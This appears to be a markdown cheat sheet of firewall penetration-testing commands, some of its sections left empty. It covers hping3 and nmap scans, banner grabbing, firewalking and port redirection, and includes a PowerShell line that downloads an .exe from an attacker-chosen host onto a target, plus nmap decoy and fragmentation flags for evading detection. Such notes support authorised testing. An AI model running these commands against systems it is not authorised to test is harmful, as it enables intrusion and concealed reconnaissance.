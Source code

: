 Firewall Pentesting:

1. Locating the firewall
we send a packet contains TCP/UDP/ICMP payloads
tools: hping3(scans one ip) or nmap(scans multiple ip's)
hping3 is recommended, becuase it is not noisly 
```
hping3 --traceroute -T -1 $firewall_ip
```

2. traceroute
discovering the path that our packet did take to get to the destination
```
traceroute $firewall_ip // on linux
tracert $firewall_ip // on windows
```

3. Port scanning
to discover open ports and their services
-T4 / -T1 speed for scanning -T4 is very aggressive.
```
nmap -sS -p 0-1024 $firewall_ip
nmap -sT -p 0-1024 $firewall_ip
```

4.  Banner grabbing
to get information about the firewall
```
nc -nvv $firewall_ip
nmap -sV --script=banner $firewall_ip
nmap -Pn -p 80 -sV --script=banner $firewall_ip
curl -s -I $firewall_ip  | grep -ie "Server:"
telnet $firewall_ip
dmitry -b $firewall_ip
```

5. Access controls (ACL) enumeration
pentester sends different types of packet to see which packet type the firewall will block and which will allow. Here is a black-box testing. Trying different types
to determine which traffics is allowed or deny on the firewalls
tools: nmap
```
nmap -sA $firewall_ip // will send an ACK flag to the first 1024 port for testing
nmap -sF $firewall_ip // will send an FIN flag to the first 1024 port for testing
```
-> A part is open: it is listening
-> Port state is filtered: firewall has blocked the port
-> Port state is unfiltered: firewall allows traffic through this port, but the port is closed 


6. Firewall architecture:
-> RST/ACK packet: firewall rejected the packet
-> SYN/ACK packet: port is in the open state
-> No response: firewall dropped the packet
-> ICMP type 3 code 13 packets: firewall blocked the connection

```

```
7. Firewall policy

```

```

8. Firewalking
a tool to map the network devices
https://www.kali.org/tools/firewalk/?adlt=strict
```
firewalk -h 
firewalk -d $port_number -i $interface -n -p TCP/UDP $firewall_ip 8.8.8.8
```

9. Port redirection
testing if there is a port redirection
tools: fpipe or datapipe
```
fpipe -l 53 -f 80 $firewall_ip
```

10. external and internal penetration testing

```

```

11. Testing for Covert Channels
Testing if pentester can do a hidden communication connection without getting alerted 
```

```

12. HTTP tunneling

```

```

13. Identify firewall specific vulns:
misconfiguration, CVE's, vulnerable services, old vulnerable versions.
look for your firewall version on cve websites like cvedetails




-> How to download a file through powershell:
>iwr -UseBasicParsing -Uri "https://ip:port/anyname.exe" -OutFile "Any-Path-On-Machine"

-> Spoofing IP for scanning with nmap:
>nmap -sS -sV -F -D $spoofed_ip $target_ip
>nmap -sS -sV -F -D RND:3 $target_ip
-F fast scan (scan only top 100 ports)
-D RND:3 scan with 3 random ips

>nmap -sS -sV -F -f --send-eth -D RND:3 $target_ip
-f will fragment the sent packets to the lowest size (8 bytes), if you added another -f will fragment the packet to 16 bytes and so on.

>nmap -sS -sV -F -mtu 16 --send-eth -D RND:3 $target_ip
-mtu to specify a specific packet size (8 16 32 64 128 and so on)


nmap options
https://www.tutorialspoint.com/nmap-cheat-sheet?adlt=strict
